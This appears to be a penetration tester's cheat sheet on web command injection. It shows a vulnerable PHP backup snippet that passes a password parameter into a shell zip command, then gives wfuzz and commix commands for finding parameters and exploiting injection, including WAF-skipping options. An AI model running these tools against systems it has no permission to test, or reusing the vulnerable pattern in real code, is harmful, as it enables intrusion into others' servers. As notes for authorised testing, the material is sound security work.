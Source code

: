 # Web Attacks

## Identify Parameters
### Command Injection
Hijacking a system command that takes a web parameter as part of the command.

  1. Look for a parameter that **does** something with the OS/System. ie; a ping command, a backup/zip command, etc.  

Example PHP Code
```php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];
# In this example, we can terminate the zip command and execute code using the "Password Parameter"
```

Using wfuzz to test for parameter existence
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt "$URL"
```
## Exploitation
### Command injection
**Using commix to detect and exploit command injection**
```bash
commix --url="<URL>?<parameter>=" --level=3 --force-ssl --skip-waf --random-agent --cookie="<cookie>"
```
**Command Injectionw with POST data**
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/command-injection-commix.txt -d "doi=FUZZ" "$URL"
```
